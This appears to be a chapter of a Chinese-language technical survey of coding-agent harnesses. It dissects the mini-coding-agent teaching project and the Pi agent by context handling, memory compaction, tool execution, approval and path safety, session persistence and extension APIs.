mini-coding-agent 是 Sebastian Raschka——《Build a Large Language Model (From Scratch)》作者、Substack「Ahead of AI」主理人——于 2026-04-01 创建的教学项目，与 2026-04-04 发布的长文《Components of a Coding Agent》互为注脚。作者将其概括为 "minimal but fully working, from-scratch Mini Coding Agent (implemented in pure Python)"：用最小但完整可用的从零实现，把 Claude Code、Codex CLI 这类生产级 coding harness（编码智能体外壳，即包裹在模型之外、管理上下文、工具、状态与控制流的软件脚手架）的六大核心组件以可读源码形式摊开。全部实现收敛于单文件 `mini_coding_agent.py` 的 1019 行纯标准库 Python（要求 ≥3.10，零第三方运行时依赖），许可证 Apache-2.0；配套 399 行 pytest 测试共 18 passed / 1 skipped（2026-07-17 本机实测），仓库历史仅 15 个 commit。社区数据方面，截至 2026-07-17 仓库约 1k stars、184 forks、3 名贡献者，经 shields.io 徽章独立复拉核实。

需要强调其「骨架标本」身份：模型后端只是 Ollama 的无状态 `/api/generate` 补全接口（默认 `qwen3.5:4b`，`think: False`，`stream: False`），对话状态完全由 harness 侧管理，每轮迭代都全量重建 prompt 发往服务端。模型可换而骨架不变——这正是本报告以它作为后续五章生产级系统对照基准的原因：它把一个 coding harness 最少需要哪些「器官」暴露到了可单步调试的粒度。

### 3.2 六维拆解

下图按源码实际数据流还原该标本的整体结构；随后的速览表汇总六维机制与参数（沿用第 2 章 2.2 的统一口径："持久化"按第 1 章修订为横切维度标签而非独立层，loop 控制面要素并入"执行"维；第 5、8 章的速览表则把"控制"单列一行、含义相同），各小节再逐一展开。



| 维度 | 核心机制（源码坐标，`mini_coding_agent.py`） | 关键参数 | 设计取向 |
|---|---|---|---|
| 感知 | `WorkspaceContext` + `build_prefix` 稳定前缀（L75-140、L333-374） | git status 截 1500 字符、项目文档各截 1200 字符；仅启动时采集一次 | 结构性 cache 友好，无显式缓存 API |
| 记忆 | `clip` / `history_text` / `memory_text`（L34-35、L376-417） | 工具输出闸 4000、历史总闸 12000 字符；近 6 条各留 900；files 8 条 / notes 5 条 | 确定性字符截断，无 tokenizer、无 LLM 摘要 |
| 执行 | 7 工具 + 自造 DSL schema + `<tool>` 文本协议 + `run_tool` 五步闸（L282-328、L496-715） | max_steps=6、attempts≤18、max_new_tokens=512 | 自造协议 + retry 容错，不依赖厂商 function calling |
| 安全 | `path()` inode 级边界 + `approve()` 三态（L602-613、L722-740） | risky 工具 3 个、默认 ask、子代理一律只读 | 路径边界 + 人审，无 OS 级沙箱 |
| 持久化 | `SessionStore` 单 JSON 双结构（L146-164、L433-443） | 每事件全量重写落盘；`--resume latest/<id>` | 崩溃不丢事件，写放大明显 |
| 扩展 | `tool_delegate` 只读单层子代理（L847-866） | max_depth=1、max_steps=3、继承父转录 300 字符摘要 | bounded delegation 雏形，同步无并行 |

通读此表可见鲜明的教学取向：所有预算都是**硬编码字符常量**而非可配参数，所有压缩都是**确定性规则**而非模型化摘要——常量本身即是文档。离群值在安全维：它是六维中唯一「边界靠语言级机制、兜底靠人」的维度，没有任何操作系统级隔离，这一空白将贯穿本报告后续所有安全讨论。另一结构性特征是六维共享同一条数据通路：前缀、压缩文本、工具结果全部汇入同一个字符预算池，由 `clip` 一道闸统一收口——生产级系统正是把这道单一闸门拆成了 token 计费、多级压缩与缓存会计的复杂管网。

#### 3.2.1 感知：WorkspaceContext 稳定前缀

`WorkspaceContext.build(cwd)` 以 `git rev-parse --show-toplevel` 定位仓库根（失败回落到当前目录），采集当前分支、默认分支、`status --short`（截 1500 字符）与最近 5 条提交，所有 git 调用 5 秒超时且异常静默回落。项目文档按 `DOC_NAMES = ("AGENTS.md", "README.md", "pyproject.toml", "package.json")` 从仓库根与当前目录两处收集去重，每份截 1200 字符。这份摘要作为 `build_prefix()` 的最后一段拼进稳定前缀——前缀在初始化时只构建一次，之后每轮 `prompt()` 复用，仅尾部的记忆与转录逐轮变化（L333-374）。文章点明其意图："'Smart' runtimes don't rebuild everything as one giant undifferentiated prompt on every turn"，即稳定内容置于头部、变化内容置于尾部，使支持前缀 KV 复用（prefix caching）的推理后端自然命中缓存。需指出，mini 版并未调用任何显式缓存 API（C 级推断），其 cache 设计是结构性的。局限同样明显：workspace 仅启动时采集一次，会话期间不刷新；不含文件树全貌，目录结构依赖模型主动调用 `list_files` 感知。

#### 3.2.2 记忆：clip 硬截断 + 近因富保留 + 类 LRU 工作记忆

记忆层的全部预算是两个常量：`MAX_TOOL_OUTPUT = 4000`、`MAX_HISTORY = 12000`（L34-35），单位是字符而非 token。其上是三层截断策略：其一，`clip(text, limit)` 让一切入 prompt 的文本统一过闸，超限截断并标注 `...[truncated N chars]`；其二，`history_text()`（L390-417）实现近因偏差压缩——最近 6 条事件各留 900 字符，更早的只留 180/220，且旧 `read_file` 事件按路径去重（2026-04 社区 PR #10 修复了写后仍显示旧读的 stale 缺陷并附回归测试）；其三，`memory_text()` 维护 `{task, files, notes}` 工作记忆，`remember()` 以「去重 + 尾部追加 + 定长截断」实现类 LRU（最近最少使用淘汰）行为，files 上限 8 条、notes 上限 5 条。文章 §5 明确区分两层语义：压缩转录为 prompt 重建服务，工作记忆为任务连续性服务。这套方案无任何 LLM 摘要环节，是最朴素的确定性压缩，胜在零成本、可复现——也因而成为第 12 章横评中「压缩策略六代递进」的初代形态。

#### 3.2.3 执行：7 工具、自造协议与五步闸

7 个工具以 dict 注册，schema 是自造字符串 DSL（如 `{"path": "str='.'"}` 表默认值），带 `risky` 布尔标志与一句话描述——不是 JSON Schema，不依赖任何厂商 function-calling 通道。模型被要求只输出两种封装之一：`<tool>{JSON}</tool>` 或 XML 风格 `<tool name="…">`（规避多行文本的 JSON 转义痛点），收尾用 `<final>`；`parse()` 按 tool-JSON → tool-XML → final → 裸文本兜底的优先级解析，畸形输出返回 retry 并把格式提示回灌模型，主循环据此重试而不中断会话。执行核心 `run_tool()`（L496-515）是一道五步闸：未知工具即拒；`validate_tool()` 手写逐工具参数校验（含 patch 的 old_text 唯一性），失败时附带调用示例给模型自纠；`repeated_tool_call()` 拒绝与上一条 name+args 完全相同的调用，充当廉价的死循环保险丝；`risky` 工具过审批闸；最后才执行并把输出 clip 到 4000 字符。文章对此的陈述是："the harness is giving the model less freedom, but it also improves the usability at the same time"——限制模型即兴语法，换来可校验、可纠错的确定性边界。

#### 3.2.4 安全：inode 级路径边界 + 三态审批

文件类工具的全部路径经 `path()`（L722-740）收口：相对路径拼到 workspace 根后 `resolve()`，再做 `path_is_within_root` 检查；对尚不存在的路径，先逐级向上探测到已存在祖先，再对其及全部 parents 做 `samefile(self.root)` 比较——用 inode（文件在文件系统中的唯一标识）级比较而非字符串前缀，同时防住 `..` 逃逸与符号链接逃逸。审批侧，`approve()`（L602-613）实现 ask/auto/never 三态策略，默认 ask，仅 `run_shell` / `write_file` / `patch_file` 三个 `risky=True` 工具过闸；子代理 `read_only=True` 时一律拒。校验顺序刻意安排为先参数校验、再防重、后审批，避免拿注定失败的调用打扰用户。仓库对 auto 模式有显著警告（2026-04-05/06 两个专门 commit）：它意味着模型可自动执行任意命令与写文件，仅限可信 prompt 与可信仓库。防护清单之外的部分同样值得记录：无 OS 级沙箱、无命令黑名单、无 secret 扫描（C 级观察）——Raschka 在后续文章中建议生产使用时应审计 agent 代码并在独立机器或独立账号运行，侧面印证此安全模型仅是教学骨架。

#### 3.2.5 持久化：SessionStore JSON 双结构 + resume

会话存储为 `<仓库根>/.mini-coding-agent/sessions/<session_id>.json`，id 形如 `20260402-161321-5fa09c`。单文件内含双结构：全量 `history`（durable transcript，事件带时间戳）与蒸馏 `memory`（task/files/notes），正是文章 Figure 11 的「full transcript + working memory」两层。`record()` 每追加一个事件立即整体重写落盘——崩溃不丢已发生事件，但每次全量重写在工程上低效（C 级观察），这是为教学简单性付出的典型代价。恢复能力由 `--resume latest`（按文件 mtime 取最新）或 `--resume <id>` 提供，`from_session()` 原样恢复 history 与 memory，而 prefix 用**当前** workspace 重建——这一细节隐含一个设计判断：持久化的是「发生过什么」，感知层则永远面向当下。

#### 3.2.6 扩展：只读单层 delegate

本项目无 MCP、无 hook、无任何外部扩展点；唯一「内生扩展」是 `tool_delegate`（L847-866）。它 spawn 一个共享同一模型后端与 workspace 的子 `MiniAgent`，但施加四重边界：只读（`approve()` 恒拒）、禁止再委托（`max_depth=1`，且 delegate 工具仅在 `depth < max_depth` 时才注册进工具表——子代理根本「看不见」它，从机制上杜绝递归）、步数有界（默认 3 步）、无审批放权。上下文继承方式为「共享 workspace + 父转录 300 字符摘要 + 明确 task」，子代理结果以 `delegate_result:` 纯文本回传，且执行是同步阻塞的，无并行扇出。文章对这一维的洞察被本报告多次引用："the tricky design problem is not just how to spawn a subagent but also **how to bind one**"——难点不在派生子代理，而在约束子代理；Raschka 同时指出 Codex 的生产做法不同：子代理不强制只读，而是继承主代理的沙箱与审批设置，边界更多落在任务范围、上下文与深度上。这一对照预告了第 9.3 节的子代理横评主线。

### 3.3 教学价值

该项目的教学价值首先体现在 Raschka 本人的三段论述中。其一，harness 差异化论："Since, in my view, the vanilla versions of LLMs nowadays have very similar capabilities… **the harness can often be the distinguishing factor** that makes one LLM work better than another." 转述：各家基座模型的裸能力已高度趋同，让同一模型拉开差距的往往是 harness；他甚至推测（原文自称 speculative）把最新开源权重模型放进同等 harness 或与旗舰配置打平，但承认 harness 专属后训练（如 GPT-5.3-Codex 变体）仍有收益。其二，上下文质量论："A lot of apparent 'model quality' is really context quality." 转述：许多表面上的「模型质量」其实是上下文质量——这是他对记忆层「被低估的、枯燥的部分」的判词。其三，后续实证：2026-06-27 的《Using Local Coding Agents》与配套评测仓 `local-coding-agent-evals` 以三种 harness × 四个本地模型的对照实验得出 "the token usage is largely driven by the harness, not the LLM itself"，与差异化论互为印证。工程层面，源文件头部注释把六组件显式映射到具体符号，`FakeModelClient` 与 `OllamaModelClient` 同构使 18 个测试可锚定审批拒绝、路径逃逸、delegate、resume 等关键路径，CI 覆盖 ubuntu/macOS/windows × pip/uv 矩阵。

下表以 Claude Code / Codex CLI 为参照系，列出该标本刻意省略的 13 项能力（「mini 版现状」列为 A 级源码证据，「生产级对应」列为 C 级综合）：

| # | 省略项 | mini 版现状 | 生产级对应能力 |
|---|---|---|---|
| 1 | 真实 prompt cache API | 仅结构性「稳定前缀」布局，未调用任何缓存接口 | Anthropic/OpenAI 显式 cache_control，计费级 KV 复用 |
| 2 | 流式输出/增量渲染 | `stream: False`，整段等待 | SSE 流式 + 打字机 UI + 可中断 |
| 3 | 厂商 function calling | 自造 `<tool>JSON/XML</tool>` 文本协议 + retry 纠错 | 原生 tool_use 结构化通道，畸形率近零 |
| 4 | chat/messages API | 用裸 `/api/generate` 补全接口，harness 全管状态 | messages 角色化 + server 侧会话特性 |
| 5 | token 级上下文预算 | 按字符 clip（4000/12000），无 tokenizer | 按 token 精确预算 + 模型化摘要压缩 |
| 6 | 高级编辑原语 | patch = 精确一次替换；无 diff、无模糊匹配、无多文件事务 | unified diff / search-replace 容差匹配 / 编辑回滚 checkpoint |
| 7 | OS 级沙箱 | 路径边界 + 人审三件套；`shell=True` 直接执行 | 容器/seccomp/网络白名单/文件系统隔离 |
| 8 | 并行与异步子代理 | delegate 同步阻塞、depth=1、只读 | 并行 Task agents、worktree 隔离、可写子代理 |
| 9 | MCP/插件/LSP 生态 | 无任何外部扩展点 | MCP server、IDE 集成、tree-sitter 语义索引 |
| 10 | repo 索引与检索 | 启动时一次性快照（git + 4 种文档）；无文件树/符号索引 | 增量索引、embedding 检索、AGENTS.md 分层加载 |
| 11 | 会话质检与计划 | 无 plan mode、无 TODO 跟踪、无 hook | Plan/approval 工作流、slash 自定义命令、PreToolUse hooks |
| 12 | 成本/遥测/多模型 | 无 token 统计、无路由、单模型单后端 | 用量面板、模型路由、harness 专属后训练变体 |
| 13 | 规模预算 | max_steps=6、max_new_tokens=512（CLI 可调） | 数百步长程任务、128k+ 输出、自动续跑 |

这份清单不应读作缺陷榜——README 明示 "The agent is intentionally small and optimized for readability, not robustness"——而应读作一张「教学减法」的目录：13 行空白大致分三层，协议层（#1/3/4）对应推理后端的工程接口，预算层（#5/6/13）对应上下文与步数的经济学，体系层（#7–12）对应沙箱、生态与治理。离群项 #7 与 #8 值得特别注意：它们不是「简化」而是「机制性缺席」，恰好标示教学骨架与生产系统之间最难跨越的两道鸿沟——隔离与并发。后续八个对象可逐一映射到这 13 行上：下一章登场的 Pi 给出第一种答案，它在保持极小内核（`agent-loop.ts` 792 行）的同时，把 #9/#11 所指的扩展与钩子体系做到九对象中最开放；而 #7 的 OS 级沙箱要等第 7 章 Codex 才被完整填上。教学标本的意义由此显现：它不提供答案，但提供了给所有答案定位的坐标系。

---

## 4. Pi：最小内核 × 极致开放扩展

Pi 已是被深度研究过的对象，本章按"核实＋纠偏＋补充"展开：以 2026-07-17 拉取的 main 分支源码（基线 0.80.10）与线上文档为准，逐条复核旧版结论。结论先行：旧版九条技术判断——outer/inner 双层循环、steering 插话、length 整批拒执、compaction 16384/20000、文件操作追踪、session v1→v3 迁移、两层扩展上下文、零内置沙箱、`min-release-age=2`——**全部仍然成立**；但项目归属、包结构、事件体系与模型层在过去半年发生了需要正式更正的变化，并新增两枚已修复 CVE 与一处基准口径纠偏。

### 4.1 定位与变迁

#### 4.1.1 Earendil 收购、仓库迁移与 0.80.x 现状

2026-04-08，Mario Zechner 宣布把 Pi 卖给 Earendil Works——一家由 Armin Ronacher 联合创办的 PBC；Mario 成为股东并与 Armin、Colin 共同掌握 Pi 的全部决策（技术方向、合并、开源边界），Pi 名称与商标归 Earendil。此后一个月完成迁移：仓库经 `badlogic/pi-mono`、`earendil-works/pi-mono` 落定 canonical 路径 `earendil-works/pi`；npm scope 由 `@mariozechner/*`（止于 0.73.1，deprecated 但未下架，锁定安装仍可复现）切换为 `@earendil-works/*`（0.74.0 起），jiti loader 对旧 scope 的扩展 import 做自动改写过渡。商业模式同步澄清：核心五包保持 MIT，托管与企业功能按 Earendil RFC 0015 走 Fair Source（延迟开源）或专有层。

采用度数据须带日期引用（本项目 star 数高速变动，引用须带日期）：GitHub org 页 2026-07-17 口径约 67.4k stars / 8.3k forks，轨迹 48.7k（5 月初）→53.6k（05-24 快照）→64,158（07-09）→约 67.4k（07-17），单调自洽；shields.io 更晚时点复拉已达 72k。发版强度为近一年 244 个 release（约每天一个），changelog 累计 263 版、含 42 个 Breaking Changes 小节，当前全 workspace 统一 0.80.10（2026-07-16），要求 Node ≥22.19。`@earendil-works/pi-ai` 的 npm 周下载从 1,755,086（07-14 窗口）回落至 1,456,779（07-15 窗口），环比约 −17%；该数字含 OpenClaw 等下游 SDK 依赖放大，不等于 CLI 用户量。

一处必须执行的基准纠偏：早期引用的"Terminal-Bench 与 Codex/Cursor/Windsurf 同档"是作者 2025-11-30 的自测（Claude Opus 4.5、5 trials/task、可提交级口径），官方适配器 `pi-terminal-bench` 虽存在，但截至 2026-07-17 的 tbench.ai 2.0/2.1 官方榜单（142 条目快照直读）**没有以 "Pi" 命名的正式条目**——自测不等于榜单成绩，本报告此后弃用该排名叙事。

下表汇总相对旧版（2025 末）的主要变化；未变项一并列出，以防"半年过去一切皆变"的误读：

| 项目 | 早期结论（2025 末） | 本次核实（2026-07，0.80.10） | 判定 |
|---|---|---|---|
| 归属与发行 | Mario Zechner 个人项目，`badlogic/pi-mono`、`@mariozechner/*` | Earendil 收购（2026-04-08）；`earendil-works/pi`；`@earendil-works/*` 自 0.74.0，旧 scope 止于 0.73.1 | **已变更** |
| monorepo 结构 | 四层：ai / agent / coding-agent / tui | 五层：＋orchestrator（experimental，Radius 控制面雏形） | **已变更** |
| 扩展事件 | 七大类 | 8 大类约 30 个（新增 project_trust、agent_settled 等约 10 个事件） | **已变更** |
| 模型层 SDK | ModelRegistry / AuthStorage | 0.80.8 ModelRuntime 重构（breaking）＋动态模型目录 | **已变更** |
| 动态工具加载 | 运行期增改工具集 | setActiveTools ＋ Anthropic/OpenAI/Kimi 三家原生 deferred 协议，`active_tools_change` 留痕 | 增强 |
| trust 装载守卫 | `.pi/` 配置与扩展目录门控 | ＋`.agents/skills` 纳管、`--approve/--no-approve`、可编程 `project_trust` 事件 | 增强 |
| 安全事件 | 无公开 CVE | CVE-2026-54327 / -54328，均修复于 0.78.1，失守点均在装载路径 | 新增 |
| agent loop | 双层循环、steering、length 整批拒执 | 成立（agent-loop.ts:169-272、:383-408）；新增 prepareNextTurn、agent_settled | 仍成立 |
| 记忆层 | 16384/20000＋readFiles/modifiedFiles＋branchSummary | 成立，常量与流程未变（compaction.ts:111-115） | 仍成立 |
| 持久化 | 树形 JSONL v3＋v1→v3 原地迁移 | 成立，无 v4（session-manager.ts:227-287）；entry 类型表扩充 | 仍成立 |
| 安全哲学 | 零内置权限＋外置隔离三选项 | 成立；Gondolin 独立为 Apache-2.0 项目；供应链加码 SHA256SUMS、install-lock | 仍成立 |
| Terminal-Bench 成绩 | 引作者"与 Codex/Cursor/Windsurf 同档" | 官方榜单 142 条目无 Pi 正式条目，仅作者自测 | **纠偏** |

通读此表可见清晰的变更分布规律：**发行面与模型层剧变，循环、记忆、持久化、安全哲学四个内核区域刻意冻结**。42 个 breaking 几乎全部落在 SDK 与扩展 API 面，agent loop 与 compaction 的常量、流程一行未动——这种"内核冻结、外围狂飙"的版本策略本身就是最小内核哲学的工程化：对扩展作者的代价是 API 跟进成本（第三方评测已抱怨"扩展需跟进快速 API 演进"），对审计者的收益是核心控制流在半年尺度上保持可逐行复核。唯一的反向修正落在基准面：旧版采信的自测排名被榜单快照证伪口径，提醒"作者自测"与"官方条目"必须分行陈述。

### 4.2 架构与 agent loop

#### 4.2.1 五层 monorepo 与 outer/inner 双层循环

旧版"四层 monorepo"需更正为五层：2026 年新增第五个包 `pi-orchestrator`（官方标注 experimental、随时可删），内含 `radius.ts`（向 `https://radius.pi.dev/v1/` 注册 machine/pi 实例、心跳保活、NOT_FOUND 重试）、`supervisor.ts`、`ipc/` 等——即 Earendil 远程托管、编排 pi 实例的控制面雏形，与 pi-ai 新增的 `radius` provider 及 `pi-messages` 自有线协议配套。前四层职责链未变：pi-ai（多 provider 协议归一化）→ pi-agent-core（agent 运行时）→ pi-coding-agent（编程外壳 CLI）→ pi-tui（终端差分渲染）。



`agent-loop.ts` 现 792 行（媒体 2026-03 所称"418 行"系更早版本），旧版三条核心结论经逐行复核全部成立。其一，**outer/inner 双层循环**：outer 循环等待 follow-up 消息，inner 循环条件为 `hasMoreToolCalls || pendingMessages.length > 0`（:169-272），把"模型还要调工具"与"用户或扩展还有话要说"统一为续跑判据。其二，**steering 插话**：`getSteeringMessages` 在 run 起始与每 turn 末拉取、注入下一次 LLM 调用之前，`getFollowUpMessages` 在 loop 将停时续命——用户不必等 agent 停工即可改向，长工具调用期间的方向修正被收纳进正常控制流而非依赖中断。其三，**length 整批拒执**：`stopReason === "length"` 时 `failToolCallsFromTruncatedMessage`（:383-408）让整批工具调用一个不执行、逐个返回"response hit the output token limit…Re-issue the tool call"；源码注释给出理由——流式参数经 JSON salvage parser 可能产出"语法合法但语义不完整"的参数，执行半截参数比拒绝执行更危险，故一律拒执并要求模型重发。

2026 年新增的挂点值得点名：`prepareNextTurn`/`prepareNextTurnWithContext`（:226-245）允许每 turn 末返回新的 context 快照——**每轮重建 systemPrompt、刷新工具列表、切换模型与思考级别**，这是 mid-loop 换模型与动态工具表的唯一生效位置；`agent_settled` 事件把"本次 run 结束"与"不会再自动继续"（无 retry、auto-compact 或队列续跑待办）区分开，回答了编排方最难判定的"真正平静点"问题。

### 4.3 六维拆解

| 维度 | 核心机制（源码坐标） | 关键参数 / 现状（0.80.10） | 设计取向 |
|---|---|---|---|
| 感知 | AGENTS.md/CLAUDE.md 按序识别＋cwd 至文件系统根 walk-up（resource-loader.ts:67-120）；`.pi/SYSTEM.md` 与 `APPEND_SYSTEM.md` 全局/项目两级注入 | context 文件**不受 trust 门控**（明示的注入面取舍）；guidelines 按可用工具条件生成 | 兼容优先，风险明示 |
| 记忆 | 单级滚动 compaction（compaction.ts:111-115）＋ readFiles/modifiedFiles 会计 ＋ branchSummary | reserve 16384 / keepRecent 20000；split-turn 双摘要 0.8×/0.5×；overflow 仅 1 次恢复 | 单级可审计，参数冻结 |
| 执行 | 7 个内置工具（read/bash/edit/write/grep/find/ls；默认 system prompt 突出四件套，即"四工具"口径）；并行默认/顺序可选（agent-loop.ts:420-428）；length 整批拒执（:383-408） | 输出截断 50KB/2000 行；typebox 1.x 参数校验；deferred 动态加载三协议 | 机制中立，策略外置 |
| 安全 | 零内置权限/沙箱；trust 装载守卫；Gondolin/Docker/OpenShell 外置隔离 | 2 枚 CVE 修复于 0.78.1；min-release-age=2、SHA256SUMS、audit signatures | 诚实边界＋供应链集中设防 |
| 持久化 | 树形 JSONL v3＋v1→v3 原地迁移（session-manager.ts:227-287） | 短 id 8 字符双实现；fork/clone/navigateTree；无 v4 | 会话即树，原语化 |
| 扩展 | 8 类约 30 事件；两层上下文；registerProvider；自定义 UI 7 节 | 约 70 个官方示例扩展；jiti 直载 TS；0.80.8 ModelRuntime breaking | 一切皆扩展，内核最小 |

通读速览表，六维共享同一条设计公理——**机制内置、策略外置**。离群值仍是安全维：它是唯一"官方主动留白"的维度，权限策略被整体推给扩展与 OS 边界，与其余五维"内核提供完整机制"形成镜像。与之对照，记忆与持久化是参数冻结最彻底的两维，16384/20000 与 v3 格式半年未动。另一横向特征是"树"作为一等数据结构同时贯穿持久化（session 树）、记忆（branchSummary）与扩展（navigateTree）三维——把内部数据结构升格为可编程原语，这在九对象中独一份。

#### 4.3.1 记忆：单级 compaction ＋文件操作追踪＋branchSummary

默认值与算法半年未变：`DEFAULT_COMPACTION_SETTINGS = { enabled: true, reserveTokens: 16384, keepRecentTokens: 20000 }`（compaction.ts:111-115），触发条件为 `contextTokens > contextWindow − reserveTokens`。三个机制细节构成其辨识度：切点绝不落在 toolResult 上（:265-303），单 turn 超预算时允许 split turn，分别生成历史摘要（≤0.8×16384）与 turn-prefix 摘要（≤0.5×16384）；二次 compaction 以滚动更新提示词在 `<previous-summary>` 上迭代，边界锚定上一次的 `firstKeptEntryId`；`CompactionDetails{readFiles, modifiedFiles}` 跨历次压缩累积合并并逐消息抽取 read/write/edit 痕迹、格式化进摘要正文——压缩不丢"动过哪些文件"的会计账。触发原因三分（manual/threshold/overflow），overflow 恢复仅允许一次 compact＋retry，且仅当 overflow 错误来自同一模型时才触发，避免换模型后误判。branchSummary 把同一套结构化摘要（Goal/Constraints/Progress/Key Decisions/Next Steps/Critical Context）复用到 `/tree` 分支导航并写 `branch_summary` entry——压缩由此从"救命措施"升格为"探索工具"。

#### 4.3.2 持久化：树形 JSONL v3 与原地迁移

会话仍是树形 JSONL、v3 为当前版：header 携带 `version:3/id/cwd/parentSession?`，每个 entry 带 `id/parentId/timestamp`，加载器拒绝未经迁移的非 v3 文件。迁移机制原样保留（session-manager.ts:227-287）：v1→v2 补 id/parentId 链并把 compaction 的 `firstKeptEntryIndex` 换成 `firstKeptEntryId`，v2→v3 把 `hookMessage` 角色改名 `custom`，加载时原地迁移，**无 v4**。增量变化在 entry 类型表：`session_info`（命名会话）、`label`（书签）与 harness 侧的 `active_tools_change`（动态工具加载留痕）均为新增。一个耐看的工程细节：短 id 生成两套实现并存——session-manager 用 `randomUUID().slice(0,8)` 取前缀，harness 存储层用 `uuidv7().slice(-8)` 取尾部，注释说明 uuidv7 前缀时间位近乎恒定、随机性在尾部。同一需求下的两次独立正确决策，侧面反映 CLI 版与 SDK 下沉版双实现并存的维护成本。

#### 4.3.3 扩展：8 类约 30 事件与模型层的动态化重构

旧版"七大类事件"需更正为 **8 大类约 30 个事件**：新增 Startup 类 `project_trust`、Resource 类 `resources_discover`、Session 类 `session_info_changed` 与 `session_before_tree/session_tree`、Agent 类 `agent_settled`、`before_provider_headers`/`after_provider_response` 等约 10 个。两层上下文的权限最小化设计保留并扩充：事件处理器拿 `ExtensionContext`（ui、只读 sessionManager、model、signal、isIdle 等观测面），命令处理器才拿 `ExtensionCommandContext`（newSession/fork/navigateTree/switchSession 等控制面）——观测面与控制面分离，事件订阅者默认无破坏力；0.69 起会话替换后旧捕获对象即失效（stale 访问抛错），文档专设"Session replacement lifecycle and footguns"一节坦承此类陷阱。`registerProvider` 仍是九对象中独一份的开放面：扩展可注册整套 LLM provider（含 OAuth 进 /login 菜单、`refreshModels` 动态模型发现），工厂期后调用立即生效、无需 reload——"支持哪些模型"这一决策被整体下放给社区。

模型层在 0.80.8 经历了一次 breaking 重构：**ModelRuntime** 统一了模型配置、provider 自有 /login 与动态目录的异步门面——SDK 的 `authStorage/modelRegistry` 选项被 `modelRuntime` 取代，`AuthStorage` 不再导出，`ModelRegistry.getApiKeyAndHeaders()` 让位给 `ModelRuntime.getAuth()`；动态目录落地为 `models-store.json` 加 pi.dev 每 provider overlay（4 小时节流）。与之配套的是 2026-07 新增的**原生 deferred 动态工具加载**：`setActiveTools()` 运行期增改激活集（会话落 `active_tools_change` entry，下次请求前生效），并对 Anthropic（Sonnet/Opus/Fable ≥4.5，不含 Haiku；`defer_loading`＋`tool_reference`）、OpenAI Responses（gpt-5.4+；`tool_search_call`）、Kimi（K3 原生协议）三家走缓存友好的原生协议，其余模型回退为下轮全量工具表。这意味着 Pi 开始回答工具膨胀时代的缓存经济学问题：工具定义不必全量驻留 prompt，按需挂载且不打穿 KV 前缀——"最小内核"从静态的工具数量最小，演进为动态的上下文占用最小。

#### 4.3.4 安全：零内置权限哲学与两枚 CVE 的学费

安全立场半年未动且表述更明确：README 与 docs/security.md 声明**不内置任何限制文件系统、进程、网络、凭据的权限系统**，以启动用户权限运行；官方理由值得转述——进程内半成品沙箱容易被误认为安全边界，真正的隔离必须来自 OS/虚拟化边界；审批弹窗被作者视为 security theater，plan mode 只读态亦不在内置清单。拦截能力并未消失，只是整体下放：`tool_call` 事件可 `block`（fail-safe：处理器抛错即拦截），官方示例扩展提供 permission-gate/protected-paths/confirm-destructive 三件套；project trust 是"防止仓库静默改写 pi 配置与扩展"的装载守卫（文档反复强调它不是沙箱、不约束模型之后让工具做什么），2026 年新增 `.agents/skills` 纳管、`--approve/--no-approve` 单次覆盖与可编程的 `project_trust` 事件。外置隔离三选项保留：Gondolin（host 持凭据、内置工具与 `!` 命令路由进本地 Linux microVM，已独立为 `earendil-works/gondolin`，Apache-2.0，具备 egress 策略与密钥占位注入）、整体 Docker、OpenShell 策略沙箱。

